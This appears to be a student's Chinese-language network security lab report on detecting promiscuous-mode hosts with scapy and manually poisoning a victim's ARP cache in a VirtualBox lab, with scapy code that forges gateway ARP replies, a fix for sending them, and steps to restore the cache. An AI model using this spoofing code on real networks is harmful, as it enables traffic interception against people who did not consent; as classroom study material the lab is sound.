


# 实验四

## 实验环境

---

- virtualbox 6.1.38

## 实验拓扑结构（含ip、MAC地址）

---

- 拓扑结构：


|主机|ip地址|物理地址/网卡|
|:---:|:---:|:---:|
|网关debina|172.16.111.1|08:00:27:c7:48:97/enp0s9|
|攻击者kali|172.16.111.123|08:00:27:40:1a:fb/eth0|
|受害者kali|172.16.111.111|08:00:27:06:78:28/eth0|


- 网关：


- 攻击者：


- 被攻击者：


## 实验准备

---

在攻击者主机上提前安装好 scapy 

```
#安装 python3
sudo apt update && sudo apt install python3 python3-pip

#ref:https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```


## 实验一：检测局域网中的异常终端

---
```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```


```
# 在攻击者主机上开启 scapy
sudo scapy
# sudo 提升权限
```


```
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.111")
```

```
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
link/ether 08:00:27:06:78:28 brd ff:ff:ff:ff:ff:ff
```


```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.111")
```

```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

---
网关debina|172.16.111.1|08:00:27:c7:48:97/enp0s9|
|攻击者kali|172.16.111.123|08:00:27:40:1a:fb/eth0|
|受害者kali|172.16.111.111|08:00:27:06:78:28/eth0|
以下代码在攻击者主机上的 scapy 交互式终端完成。
```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```


```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.111
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.111", hwdst="08:00:27:40:1a:fb")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
```
ip neigh
```

可以看到已经被毒化了

回到攻击者主机上的 scapy 交互式终端继续执行命令。

```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 =  Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:c7:48:97", pdst="172.16.111.111", hwdst="08:00:27:06:78:28")
sendp(restorepkt1, count=100, inter=0.2)
```

此时在受害者主机上准备“刷新”网关 ARP 记录。
```
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```


## 实验问题

---

- DDOS攻击：  
DDOS(Distributed Denial of Service)，即分布式拒绝服务，是一种针对于网络服务的攻击行为。对于 DDOS 我们可以这样通俗地理解，假如有一家商店在售卖商品，突然涌过来一大帮人说要买东西，这里面有的人是真正的顾客，有的人只是过来捣乱的，但是售货员可能就会崩溃了（不知道该卖给谁），就会导致一种拒绝服务攻击了。而分布式拒绝服务攻击，则是因为黑客控制了很多台肉鸡来发动攻击。这种攻击近些年来越来越流行，对于攻击者来说，成本小，但是相对收益大，对于受害者来说，造成的伤害却是巨大的。因为对于服务提供者来说，一旦服务不可用，就会造成不可挽回的损失，可能会导致用户量的流失。根据腾讯云发布的《2018年泛互联网行业DDoS攻击态势报告》，2018年 DDOS 攻击已经进入 TB 时代，2018 年的攻击峰值为 1.23Tbps（同比增长121%），而业界的攻击峰值更是达到惊人的 1.94Tbps。

- promiscping：  
  - promiscping 命令会发送 ARP who-has 请求。  
  - 混杂模式 接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址；  
  - 普通模式 网卡只接收发给本机的包  

  从**实验一**中可以看出只有在混杂模式下，受害者主机才能收到这个数据包。  
  **网卡的混杂模式是为网络分析而提供的。**

- scapy：  
Scapy是一个Python程序，使用户能够发送，嗅探和剖析并伪造网络数据包。此功能允许构建可以探测，扫描或攻击网络的工具。换句话说，Scapy是一个功能强大的交互式数据包操作程序。它能够伪造或解码大量协议的数据包，通过线路发送，捕获它们，匹配请求和回复等等。Scapy可以轻松处理大多数经典任务，如扫描，跟踪路由，探测，单元测试，攻击或网络发现。它可以取代hping，arpspoof，arp-sk，arping，p0f甚至是Nmap，tcpdump和tshark的某些部分。

- 伪造的网关ARP相应包发不出去  
解决方法： 在构造ARP相应包时添加数据链路层Ether(),比如上述的实验二：
```
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.111", hwdst="08:00:27:40:1a:fb")
```
## 参考资料：

- [混杂模式](https://blog.csdn.net/z136370204/article/details/97238861)

- https://blog.csdn.net/Ahuuua/article/details/108575907

- https://c4pr1c3.github.io/cuc-ns/